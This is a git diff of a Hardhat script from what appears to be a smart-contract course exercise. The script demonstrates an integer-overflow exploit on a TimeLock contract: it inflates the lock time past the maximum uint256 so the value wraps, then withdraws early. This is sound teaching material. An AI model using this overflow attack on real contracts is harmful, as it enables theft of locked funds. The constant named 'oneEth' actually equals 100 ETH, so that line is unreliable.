

deposit 1 eth

Changed region(s): [[0.0, 0.0, 1.0, 0.9754]]

diff --git a/week09/scripts/deploy.ts b/week09/scripts/deploy.ts
@@ -4,49 +4,50 @@ import { ethers } from "hardhat";
 async function main(contractName: string) {
   console.log(`Testing contract ${contractName}`)
 
-  const Collection = await ethers.getContractFactory(contractName)
+  const Contract = await ethers.getContractFactory(contractName)
 
   const accounts = await ethers.getSigners()
   const owner = accounts[0]
 
   console.log(`TimeLock owner: ${owner.address}`)
-  const collection = await Collection.connect(owner).deploy()
+  const contract = (await Contract.connect(owner).deploy()).connect(owner)
 
-  console.log(`Collection address: ${collection.address}`)
+  console.log(`Collection address: ${contract.address}`)
 
   const initBalance = await owner.getBalance()
   console.log(`Owner's initial balance: ${initBalance}`)
 
-  await collection.deposit({ value: 3000 })
-  const initDepositBalance = await collection.balances(owner.address)
+  const oneEth = 100000000000000000000n
+
+  await contract.deposit({ value: oneEth })
+  
+  const initDepositBalance = await contract.balances(owner.address)
   console.log(`Owner's initial deposit balance: ${initDepositBalance}`)
 
-  const afterDepositBalance = await owner.getBalance()
-  console.log(`Owner's balance after depositing: ${afterDepositBalance}`)
+  const lockTime = await contract.lockTime(owner.address)
 
-  const lockTime = await collection.lockTime(owner.address)
-
-  const MAX_INT = ethers.BigNumber.from(115792089237316195423570985008687907853269984665640564039457584007913129639935n)
+  const MAX_INT = ethers.BigNumber.from(0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffn)
   const lockTimeIncrease = MAX_INT.sub(lockTime).add(1)
 
   console.log(`Increase lock time by: ${lockTimeIncrease}`)
 
-  await collection.increaseLockTime(lockTimeIncrease)
+  await contract.increaseLockTime(lockTimeIncrease)
 
-  const newLockTime = await collection.lockTime(owner.address)
+  const newLockTime = await contract.lockTime(owner.address)
 
   console.log(`New lock time: ${newLockTime}`)
 
   console.log(`Withdrawing`)
 
-  await collection.withdraw()
+  await contract.withdraw()
 
-  const finalDepositBalance = await collection.balances(owner.address)
+  const finalDepositBalance = await contract.balances(owner.address)
   console.log(`Owner's final deposit balance: ${finalDepositBalance}`)
 
   const finalBalance = await owner.getBalance()
   console.log(`Owner's final balance: ${finalBalance}`)
 
+  // FIXME negative change
   console.log(`Balance changed by: ${finalBalance.sub(initBalance)}`)
 }
 
